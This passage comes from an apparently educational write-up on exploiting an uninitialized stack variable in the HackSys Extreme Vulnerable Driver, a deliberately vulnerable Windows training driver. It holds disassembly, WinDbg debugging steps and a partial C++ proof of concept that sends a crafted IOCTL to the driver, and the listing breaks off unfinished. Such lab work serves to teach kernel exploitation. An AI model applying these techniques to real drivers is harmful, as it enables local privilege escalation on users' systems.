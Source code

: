 ```js
PAGE:00014F83                 add     esp, 14h
PAGE:00014F86                 cmp     [ebp+UninitializedStackVariable.Callback], edi
PAGE:00014F8C                 jz      short loc_14FB7
PAGE:00014F8E                 call    [ebp+UninitializedStackVariable.Callback]   <-- here we call it
PAGE:00014F94                 jmp     short loc_14FB7
```

Same here as in the previous one, we should pass anything except for magic number that is given in the program to get into out vulnerable part

Let's go to the exploit

## [](#header-2)Exploit


* run windbg
* run virutal machine
* open shared folder on vm (```Z:\kernel4\NullPoint\Release``` in my case) to copy compiled file to the desktop
* in windbg:
* * ```ed nt!Kd_Default_Mask 8```
* * ```.sympath+ C:\Users\truebad0ur\Documents\Kernel```
* * ```.reload /f```
* * ```lm m HEV*``` - check if out module is loaded
* * ```bp HEVD!TriggerUninitializedStackVariable``` - break on out function
* * ```bp HEVD!TriggerUninitializedStackVariable+94``` - break on the end of the function before shellcode call

```cpp
#include <Windows.h>
#include <string.h>
#include <stdio.h>

#define IO_CODE 0x22202F

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

int main() {

    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
    HANDLE hDevice = CreateFileA(kDevName,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error - dailed to get file handle!\n");
        system("pause");
        return -1;
    }
    printf("[+] Successfully obtained a handle to the driver\n");

    DWORD bytesRetn;
    char buf[4] = { 0xb0, 0xb0, 0xd0, 0xba };

    printf("[+] Starting interaction with the driver\n");
    DeviceIoControl(hDevice, IO_CODE, buf, sizeof(buf), NULL, 0, &bytesRetn, NULL);
    //system("cmd.exe");
    CloseHandle(hDevice);


```
